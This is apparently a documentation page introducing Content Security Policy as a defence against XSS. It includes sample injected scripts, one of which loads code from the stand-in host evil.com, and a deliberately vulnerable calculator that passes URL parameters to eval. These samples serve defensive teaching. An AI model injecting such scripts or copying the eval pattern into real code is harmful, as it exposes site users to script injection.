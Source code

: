 ```yaml
---
sidebar_position: 2
---
```


# Content Security Policy

## Introduction to Content Security Policy

This article brings forth a way to integrate the __defense in depth__ concept to the client-side of web applications. By injecting the Content-Security-Policy (CSP) headers from the server, the browser is aware and capable of protecting the user from dynamic calls that will load content into the page currently being visited.

## Context

The increase in XSS (Cross-Site Scripting), clickjacking, and cross-site leak vulnerabilities demands a more __defense in depth__ security approach.

### Defense against XSS

CSP defends against XSS attacks in the following ways:

#### 1. Restricting Inline Scripts

By preventing the page from executing inline scripts, attacks like injecting

```html
<script>document.body.innerHTML='defaced'</script>
```

 will not work.

#### 2. Restricting Remote Scripts

By preventing the page from loading scripts from arbitrary servers, attacks like injecting

```html
<script src="https://evil.com/hacked.js"></script>
```

will not work.

#### 3. Restricting Unsafe JavaScript

By preventing the page from executing text-to-JavaScript functions like `eval`, the website will be safe from vulnerabilities like the this:

```js
// A Simple Calculator
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`The sum is: ${sum}`);
```
